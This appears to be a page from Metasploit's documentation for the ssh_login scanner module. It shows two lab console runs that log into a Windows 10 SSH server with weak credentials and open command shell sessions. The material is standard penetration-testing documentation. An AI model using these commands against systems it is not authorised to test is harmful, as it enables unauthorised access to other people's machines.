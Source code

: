 ```
  * Windows 10 w/ Linux Subsystem

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username winuser
username => winuser
msf auxiliary(ssh_login) > set password "badpassword"
password => badpassword
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'winuser:badpassword' ''
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.117:42227 -> 192.168.2.140:22) at 2017-02-22 20:40:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type     Information                               Connection
  --  ----     -----------                               ----------
  1   shell /  SSH winuser:badpassword (192.168.2.140:22)  192.168.2.117:42227 -> 192.168.2.140:22 (192.168.2.140)

```

  Example run against:
  * Windows 10 w/ Bitvise SSH Server (WinSSHD) version 7.26-r2 and a virtual account created
  
  It is important to note here that the module gives back a **Success**, but then errors when trying to identify the remote system.
  This should be enough info to manually exploit via a regular SSH command.

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username virtual
username => virtual
msf auxiliary(ssh_login) > set password virtual
password => virtual
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'virtual:virtual' 'id: Command not found.  help ?: Command not found.  '
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.140 - Command shell session 4 closed.  Reason: Died from EOFError
[*] Command shell session 4 opened (192.168.2.117:36169 -> 192.168.2.140:22) at 2017-02-22 21:20:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
